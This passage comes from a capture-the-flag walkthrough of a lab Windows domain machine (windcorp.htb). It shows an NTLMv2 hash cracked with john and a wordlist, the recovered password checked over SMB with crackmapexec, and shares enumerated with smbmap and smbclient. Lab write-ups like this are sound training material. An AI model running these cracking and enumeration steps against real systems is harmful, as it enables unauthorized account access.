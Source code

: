 We can then crack this hash easily using `john`:

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash 
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Secret123        (localadmin)     
1g 0:00:00:00 DONE (2023-05-15 11:38) 1.515g/s 3171Kp/s 3171Kc/s 3171KC/s Smudge2..SaS1993
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed.
```

Then, we can verify these creds with with SMB:

```
$ crackmapexec smb 10.129.190.189 -u localadmin -p Secret123
  if result['type'] is not 'searchResEntry':
SMB         10.129.190.189  445    EARTH            [*] Windows 10.0 Build 17763 x64 (name:EARTH) (domain:windcorp.htb) (signing:True) (SMBv1:False)
SMB         10.129.190.189  445    EARTH            [+] windcorp.htb\localadmin:Secret123
```

## Diego Shell

### SMB Access

We can enumerate the shares as `localadmin`.

```
$ smbmap -u 'localadmin' -p 'Secret123' -H 10.129.190.189
[+] IP: 10.129.190.189:445      Name: windcorp.htb                                      
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        CertEnroll                                              READ ONLY       Active Directory Certificate Services share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        Shared                                                  READ ONLY
        SYSVOL                                                  READ ONLY       Logon server share
```

We can view `Shared` first.&#x20;

```
$ smbclient  //10.129.190.189/Shared -U 'windcorp.htb/localadmin'
Password for [WINDCORP.HTB\localadmin]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Apr 28 11:06:06 2021
  ..                                  D        0  Wed Apr 28 11:06:06 2021
  Documents                           D        0  Tue Apr 27 00:09:25 2021
  Software                            D        0  Thu Jul 22 14:14:16 2021
```
